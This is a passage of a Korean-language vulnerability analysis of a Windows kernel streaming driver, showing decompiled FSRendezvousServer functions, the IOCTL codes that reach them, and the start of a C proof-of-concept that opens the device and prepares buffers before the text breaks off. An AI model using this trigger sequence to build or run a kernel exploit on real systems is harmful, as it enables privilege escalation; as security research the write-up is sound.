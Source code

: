 ```js
    {
      FsStreamList = (_QWORD *)((char *)this + 80);
      /* FsContext2를 찾기 위한 링크드 리스트 검색 */
    }
  }
  return 0;
}
```

<div class="content-ad"></div>

FSRendezvousServer::FindObject의 이름이 FSRendezvousServer::FindStreamObject로 변경되었습니다. 이 함수는 타입 번호 2의 FSStreamReg 오브젝트를 탐색합니다.

# 취약점 발생

이 취약점을 발생시키기 위해서는 FSContextReg 오브젝트를 만들어야 합니다. 이 오브젝트는 FSRendezvousServer::InitializeContext에서 생성할 수 있으며, 이 함수는 IoControlCode가 0x2F0400일 때 호출됩니다.

```js
__int64 __fastcall FSInitializeContextRendezvous(struct _IRP *a1)
{
  ...
  RendezvousServerObj = operator new(0xA0ui64, v3, 0x73767A52u);
  if(RendezvousServerObj){
    // RendezvousServerObj 초기화
  }
  ServerObj_1C0005048 = RendezvousServerObj_;
  ...
  // `FSRendezvousServer::InitializeContext`에서 FSContextReg 오브젝트 생성
  result = FSRendezvousServer::InitializeContext(RendezvousServerObj, a1);
  FSRendezvousServer::Release(RendezvousServerObj);
  return result;
}
```

<div class="content-ad"></div>

그러면 취약한 함수 중 하나를 트리거하여 FSRendezvousServer::PublishTx(0x2F0408), FSRendezvousServer::PublishRx(0x2F040C), FSRendezvousServer::ConsumeTx(0x2F0410), FSRendezvousServer::ConsumeRx(0x2F0414)를 실행합니다.

아래 PoC는 FSStreamReg::PublishRx를 트리거하는 데 사용됩니다.

```js
#define inputsize 0x100
#define outputsize 0x100
int wmain(int argc, wchar_t** argv) {
  WCHAR DeviceLink[256] = L"\\\\?\\ROOT#SYSTEM#0000#{3c0d501a-140b-11d1-b40f-00a0c9223196}\\{96E080C7-143C-11D1-B40F-00A0C9223196}&{3C0D501A-140B-11D1-B40F-00A0C9223196}";
  HANDLE hDevice = NULL;
  NTSTATUS ntstatus = 0;
  hDevice = CreateFile(
    DeviceLink,
    GENERIC_READ | GENERIC_WRITE,
    0,
    NULL,
    OPEN_EXISTING,
    0x80,
    NULL
  );

  PCHAR inputBuffer = (PCHAR)malloc(inputsize);
  PCHAR outputBuffer = (PCHAR)malloc(outputsize);

  printf("[+] Initialize Rendezvous\n");
  memset(inputBuffer, 0, inputsize);
```